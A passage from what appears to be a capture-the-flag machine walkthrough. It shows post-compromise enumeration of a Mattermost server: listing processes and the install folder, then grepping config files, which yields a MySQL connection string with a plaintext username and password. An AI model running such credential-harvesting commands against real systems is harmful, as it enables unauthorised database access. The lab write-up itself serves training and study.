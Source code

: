 ... since this account doesn't have permission to access `mysql.user` either, perhaps it wasn't the right one... *MORE ENUMERATING!*

### mattermost

Let's try searching for the mattermost db credentials instead - after all, we know for certain that there's an interesting user on this service: `root`.

They were even easier to find than the osticket creds:

```bash
ps aux | grep mattermost
```

```txt
matterm+   697  0.4  3.9 1650620 157952 ?      Ssl  06:28   0:38 /opt/mattermost/bin/mattermost
matterm+   892  0.0  0.5 1239060 21272 ?       Sl   06:29   0:00 plugins/com.mattermost.nps/server/dist/plugin-linux-amd64
matterm+   893  0.0  0.5 1234164 20716 ?       Sl   06:29   0:00 plugins/com.mattermost.plugin-channel-export/server/dist/plugin-linux-amd64
maildel+  2152  0.0  0.0   6076   824 pts/4    S+   08:50   0:00 grep mattermost
```

```bash
ls -la /opt/mattermost
```

```txt
total 288
drwxrwxr-x 12 mattermost mattermost   4096 Dec 26 09:24 .
drwxr-xr-x  3 root       root         4096 Dec 26 09:22 ..
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:53 bin
drwxrwxr-x  7 mattermost mattermost   4096 Dec 26 09:24 client
drwxrwxr-x  2 mattermost mattermost   4096 Dec 26 09:23 config
drwxrwxr-x  3 mattermost mattermost   4096 Feb 14 06:28 data
-rw-rw-r--  1 mattermost mattermost   2052 Dec 18 08:52 ENTERPRISE-EDITION-LICENSE.txt
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:52 fonts
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:52 i18n
drwxrwxr-x  2 mattermost mattermost   4096 Dec 26 09:23 logs
-rw-rw-r--  1 mattermost mattermost    898 Dec 18 08:52 manifest.txt
-rw-rw-r--  1 mattermost mattermost 229264 Dec 18 08:52 NOTICE.txt
drwxr--r--  5 mattermost mattermost   4096 Feb 14 06:29 plugins
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:53 prepackaged_plugins
-rw-rw-r--  1 mattermost mattermost   6262 Dec 18 08:52 README.md
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:52 templates
```

```bash
grep -C4 mysql /opt/mattermost/config/*
```

```txt
/opt/mattermost/config/config.json-        "IosLatestVersion": "",
/opt/mattermost/config/config.json-        "IosMinVersion": ""
/opt/mattermost/config/config.json-    },
/opt/mattermost/config/config.json-    "SqlSettings": {
/opt/mattermost/config/config.json:        "DriverName": "mysql",
/opt/mattermost/config/config.json-        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
/opt/mattermost/config/config.json-        "DataSourceReplicas": [],
/opt/mattermost/config/config.json-        "DataSourceSearchReplicas": [],
/opt/mattermost/config/config.json-        "MaxIdleConns": 20,
```
